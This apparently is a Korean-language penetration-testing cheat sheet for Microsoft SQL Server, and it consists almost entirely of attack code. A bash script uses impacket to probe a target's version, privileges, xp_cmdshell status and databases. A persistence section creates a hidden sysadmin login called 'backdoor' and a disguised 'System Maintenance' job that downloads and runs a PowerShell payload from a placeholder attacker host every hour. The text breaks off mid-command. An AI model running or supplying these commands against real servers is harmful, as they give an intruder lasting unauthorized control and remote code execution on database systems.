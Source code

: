 ### 🔍 MSSQL 정보 수집 자동화 스크립트

```bash
#!/bin/bash
IP=$1
USER=${2:-sa}
PASS=${3:-}

echo "=== MSSQL Information Gathering for $IP ==="

# 연결 테스트
echo "[+] Testing connection..."
impacket-mssqlclient $USER:$PASS@$IP -db master << EOF
SELECT @@version;
SELECT system_user;
SELECT IS_SRVROLEMEMBER('sysadmin');
GO
EXIT
EOF

echo "[+] Checking xp_cmdshell status..."
impacket-mssqlclient $USER:$PASS@$IP -db master << EOF
SELECT * FROM sys.configurations WHERE name = 'xp_cmdshell';
GO
EXIT
EOF

echo "[+] Listing databases..."
impacket-mssqlclient $USER:$PASS@$IP -db master << EOF
SELECT name FROM sys.databases;
GO
EXIT
EOF

echo "=== MSSQL Scan Complete ==="
```

### 🎭 MSSQL 지속성 및 백도어

```bash
# 새 로그인 생성 (sysadmin 권한)
CREATE LOGIN [backdoor] WITH PASSWORD = 'BackdoorPass123!';
ALTER SERVER ROLE sysadmin ADD MEMBER [backdoor];

# 스케줄된 작업 생성
EXEC msdb.dbo.sp_add_job
    @job_name = 'System Maintenance',
    @enabled = 1;

EXEC msdb.dbo.sp_add_jobstep
    @job_name = 'System Maintenance',
    @step_name = 'Cleanup',
    @command = 'powershell.exe -c "IEX(New-Object Net.WebClient).downloadString(\'http://{ATTACKER_IP}/persistence.ps1\')"';

# 스케줄 설정 (매시간 실행)
EXEC msdb.dbo.sp_add_schedule
    @schedule_name = 'Hourly',
    @freq_type = 4,
    @freq_interval = 1,
    @freq_subday_type = 8,
    @freq_subday_interval = 1;

EXEC msdb.dbo.sp_attach_schedule
```